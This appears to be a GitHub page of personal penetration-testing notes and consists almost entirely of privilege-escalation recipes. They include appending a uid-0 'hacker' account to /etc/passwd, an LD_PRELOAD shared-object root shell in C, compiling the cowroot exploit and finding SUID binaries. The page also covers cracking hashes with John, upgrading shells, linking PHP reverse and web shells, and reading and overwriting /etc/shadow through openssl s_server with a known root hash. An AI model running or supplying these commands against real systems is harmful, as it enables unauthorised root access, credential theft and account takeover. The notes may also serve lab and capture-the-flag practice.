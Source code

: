 # Tracking the Various Tips and Tracks learned along the way


### Adding a user to /etc/passwd  

```bash
echo hacker:$(( echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> passwd
tar -cvf passwd.tar passwd
tar -xvf passwd.tar -C /etc/
```

### Finding SUID   

- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -4000 2>/dev/null`

  
### Compiling a shell  

```c
/*
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
used to LD_PRELOAD shell.so
*/

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF
```

`gcc cowroot.c -o cowroot -pthread`
### Cracking Passwords with John  

- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format:RAW-SHA1`
- `john --list=formats`
- [Hash Formats](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)
- [hash-identifier](https://hashes.com/en/tools/hash_identifier)

### Cracking Passwords with Hashcat

- [Examples](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Upgrading a shell

- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`

### Reverse Shells

- https://github.com/flozz/p0wny-shell
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Nmap Scans

- `sudo nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p-`

### File Transferring

- `python3 -m http.server 80`

### Wordpress Vulnerability Scans

`wpscan --url 10.x.x.x`

### Overwriting /etc/shadow with OpenSSL

```bash
# Create keys in /tmp for easy access
cd /tmp
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

# Switch serving directory to /
cd /

# Start https content server with generated certs
openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

# In another local shell, retrieve /etc/shadow
curl -k https://localhost:1337/etc/shadow

# Modify root password with `hash:password` - `$1$mysalt$7DTZJIc9s6z60L6aj0Sui.` = myhackerpass
# Alternatively - openssl passwd -6 -salt xyz  yourpass ; -6 = SHA-512, -5 = SHA-256 and -1 = MD5

# Encrypt shadow file
openssl smime -encrypt -aes256 -in /tmp/shadow -binary -outform DER -out /tmp/shadow.enc /tmp/cert.pem

# Set back to root directory for restoring /etc/shadow
cd /

# Restore encrypted shadow file to /etc/shadow
openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/key.pem -out /etc/shadow
```
